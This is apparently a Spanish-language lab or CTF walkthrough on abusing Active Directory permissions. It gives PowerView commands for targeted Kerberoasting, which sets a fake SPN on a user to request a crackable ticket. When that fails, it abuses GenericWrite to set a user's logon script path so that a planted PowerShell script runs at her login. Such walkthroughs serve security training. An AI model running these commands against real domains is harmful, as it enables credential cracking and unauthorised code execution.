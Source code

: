 Este ataque lo que realiza es agregar un SPN (Service Principal Name) ficticio a una cuenta. Una vez que la cuenta tenga establecido el SPN, la cuenta se vuelve vulnerable al ataque de _**Kerberoasting**_. Lo cual posteriormente podemos obtener el TGS (Ticket Granting Service), es decir un hash que posteriormente podemos intentar crackear de manera offline.

En este caso, el ataque se realiza _Set-DomainObject_ y _Get-DomainSPNTicket._

<figure><img src="../../../../../.gitbook/assets/3151_vmware_pX9fL1Fl6j.png" alt="" width="442"><figcaption></figcaption></figure>

En el siguiente GitHub ([Targeted Kerberoasting](https://github.com/Hackndo/The-Hacker-Recipes/blob/master/active-directory-domain-services/movement/abusing-aces/targeted-kerberoasting.md)) nos informa como realizar este tipo de ataque desde Windows.

<figure><img src="../../../../../.gitbook/assets/3152_firefox_FMo6wtTujg.png" alt=""><figcaption></figcaption></figure>

Probando de realizar el _**Targeted Kerberoast**_, nos aparece un error de Kerberos, lo cual no nos permite realizar dicho ataque.

```powershell
Get-DomainUser 'maria' | Select serviceprincipalname

Set-DomainObject -Identity 'maria' -Set @{serviceprincipalname='nonexistent/BLAHBLAH'}

$User = Get-DomainUser 'maria'

$User | Get-DomainSPNTicket | fl
```

<figure><img src="../../../../../.gitbook/assets/3153_vmware_oxgETotTCl.png" alt=""><figcaption></figcaption></figure>

Debido que no hemos podido realizar el ataque, desde [HackTricks ](https://book.hacktricks.xyz/windows-hardening/active-directory-methodology/acl-persistence-abuse#genericwrite-on-user)revisamos el ACL de _**GenericWrite on User**_ en busca de intentar realizar otro tipo de ataque.

Este permiso permite a un atacante modificar las propiedades de un usuario. Un atacante puede llegar a cambiar la ruta del script de inicio de sesión (Script Path Logon) de un usuario para ejecutar un script malicioso al iniciar sesión.

<figure><img src="../../../../../.gitbook/assets/3155_firefox_IwaWBKucN2.png" alt=""><figcaption></figcaption></figure>

En este caso, lo que realizaremos es crear un script (.ps1) que contenga la instrucción de listar el contenido del directorio C:\Users\Maria\Desktop y lo almacene el resultado en el directorio que estamos actualmente en el archivo "output.txt".

Este script le asignaremos de nombre "test.ps1", una vez creado el script, procederemos a asignarle el script en la ruta de inicio de sesión del usuarioo, para que cuando el usuario acceda al equipo, se ejecute el script.

Verificamos que el contenido obtenido nos muestra que la usuaria dispone de un Excel (Engines.xls) en el directorio Desktop de su usuario.

```powershell
echo "ls C:\Users\Maria\Desktop > C:\ProgramData\test\output.txt" > test.ps1

Set-DomainObject -Identity maria -SET @{scriptpath='C:\ProgramData\test\test.ps1'}

dir

type output.txt
```
